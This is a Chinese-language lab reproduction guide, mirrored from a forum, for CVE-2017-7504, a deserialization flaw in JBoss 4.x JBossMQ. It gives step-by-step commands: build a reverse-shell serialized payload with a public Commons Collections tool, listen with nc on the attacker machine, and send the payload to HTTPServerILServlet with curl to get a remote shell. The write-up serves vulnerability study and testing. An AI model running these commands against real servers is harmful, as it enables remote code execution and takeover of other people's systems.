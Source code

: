 # （CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2985](https://www.zhihuifly.com/t/topic/2985)

# （CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞

## 一、漏洞简介

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

## 二、漏洞影响

JBoss AS 4.x及之前版本

## 三、复现过程

win7一台，ip为172.26.1.127（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入[http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet](http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet)，如果显示下图，则可能存在漏洞

![image](img/de40c2aec33a4e703aa9f6c5db7b0acd.png)

进入kali攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

> 继续执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口) 
```

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

```
curl http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![image](img/818dfb03acd790896390d942fdf309ea.png)

回到nc界面，发现shell已经反弹回来了

![image](img/20c470ebb8a3c17780df9af03a09651c.png)